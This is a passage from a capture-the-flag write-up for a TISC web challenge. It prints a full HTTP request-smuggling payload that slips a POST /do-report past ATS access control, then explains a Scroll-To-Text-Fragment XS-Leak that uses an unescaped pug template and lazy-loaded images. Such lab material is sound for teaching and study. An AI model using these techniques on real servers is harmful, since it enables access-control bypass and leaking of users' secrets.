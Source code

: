 When the request is forwarded to the backend, however, Node does not see `xxx` as part of a new line.

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;[\n]xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0

```

herefore, the `POST /do-report HTTP/1.1` request is processed as a second request instead.

This allows us to smuggle a request to the backend application, bypassing the access control implemented on ATS.

## Part 3 - Scroll-To-Text-Fragment (STTF) XS-Leak

First of all, notice in the `verify.pug` template that `username` is unescaped, since `!{...}` i used instead of `#{...}`.

```pug
.alert.alert-success(role='alert')
    | This token belongs to !{username}.
    | If !{username} asks for your token, you can give them this token: #{token}.
```

This allows us to inject HTML markup, but because of the strict Content Security Policy, we cannot perform XSS or CSS-based exfiltration.

```http
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; 
```

[STTF](https://chromestatus.com/feature/4733392803332096) is a relatively new feature in Chromium, which allows scrolling to a specific portion of a page using a text snippet in the URL. This opens up possibilities for XS-Leaks.

Notice that the CSP allows the loading of arbitrary images. This can be combined with STTF to detect if a scroll occurred, leading to the loading of a lazy-loaded image.

In order to make sure that the lazy-loaded image does not load immediately after opening the page, a simple solution is to make use of Bootstrap's `min-vh-100` class - this ensures that the `div` will take up the entire viewport.
